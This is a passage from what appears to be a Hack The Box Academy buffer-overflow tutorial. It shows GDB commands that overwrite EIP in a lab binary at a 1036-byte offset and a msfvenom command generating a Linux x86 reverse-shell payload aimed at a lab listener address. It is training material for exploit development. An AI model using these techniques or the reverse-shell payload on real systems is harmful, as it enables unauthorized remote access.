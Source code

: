 #### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)

If we now use precisely this number of bytes for our "`U`"s, we should land exactly on the `EIP`. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "`\x66`" and execute it to ensure we control the `EIP`.

#### GDB Offset

  GDB Offset

```shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Now we see that we have overwritten the `EIP` with our "`\x66`" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the `EIP` now, we will later overwrite it with the address pointing to our shellcode's beginning.

# Determine the Length for Shellcode

---

Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

**ShellCode - Length**
```Bash
msfvenoom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.176 LPORT=1337 --platform linux --arch x86 --format c
```
```shell-session
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```
We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some `no operation instruction` (`NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:
